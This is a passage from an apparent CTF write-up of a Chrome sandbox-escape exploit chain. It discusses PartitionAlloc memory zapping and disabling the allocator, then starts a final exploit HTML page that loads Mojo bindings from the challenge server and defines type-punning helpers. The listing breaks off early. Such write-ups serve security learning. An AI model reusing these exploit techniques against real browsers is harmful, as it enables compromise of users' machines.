 ```cpp
  // TODO(keishi): Add PA_LIKELY when brp is fully enabled as |brp_enabled| will
  // be false only for the aligned partition.
  if (brp_enabled()) {
    auto* ref_count = internal::PartitionRefCountPointer(slot_start);
    // If there are no more references to the allocation, it can be freed
    // immediately. Otherwise, defer the operation and zap the memory to turn
    // potential use-after-free issues into unexploitable crashes.
    if (PA_UNLIKELY(!ref_count->IsAliveWithNoKnownRefs() &&
                    brp_zapping_enabled()))
      internal::SecureMemset(object, internal::kQuarantinedByte,
                             slot_span->GetUsableSize(this));
```

I did not figure out whether this is just not enabled when running with `--headless` or the GUI just causes the memset to happen due to other factors.
In the end, I decided to just disable the new allocator with a command line flag[^4].

With all of that fixed, the exploit finally worked when running under a GUI and we were able to capture this glorious video :P (I recommend you turn on sound):

<video width="100%" controls="controls">
  <source src="./img/fourchain_gui.mp4">
</video>

[^4]: Yeah this is kinda cheating, but then again, the challenge was not made with this in mind and I also had to finish this writeup at some point :P. Also I forgot the command line flag, so if you came here looking for that, sorry :/.


## Final Exploit HTML

```html
<html>
<head>

<script src="http://chain.galli.me:8080/mojo/mojo_bindings.js"></script>
<script src="http://chain.galli.me:8080/mojo/third_party/blink/public/mojom/sandbox/sandbox.mojom.js"></script>

<script>
const server_url = 'http://chain.galli.me:8080'
let printbuf = [];
function print(msg) {
  printbuf.push(msg);
}

let f64view = new Float64Array(1);
let u8view = new Uint8Array(f64view.buffer);
let u64view = new BigUint64Array(f64view.buffer);
let i32view = new Int32Array(f64view.buffer);
let u32view = new Uint32Array(f64view.buffer);

function d2i(x) {
    f64view[0] = x;
    return u64view[0];
}

function i2d(x) {
    u64view[0] = x;
    return f64view[0];
}

function s2u(x) {
    i32view[0] = x;
    return u32view[0];
}

function hex(x) {
```

[^1]: The reason why we use rdx, rax to read but rax, rdx to write is that if the same floating-point constant is used twice in the function, the compiler will emit a load from memory instead of an immediate. So we can't use the same sequence of instructions twice.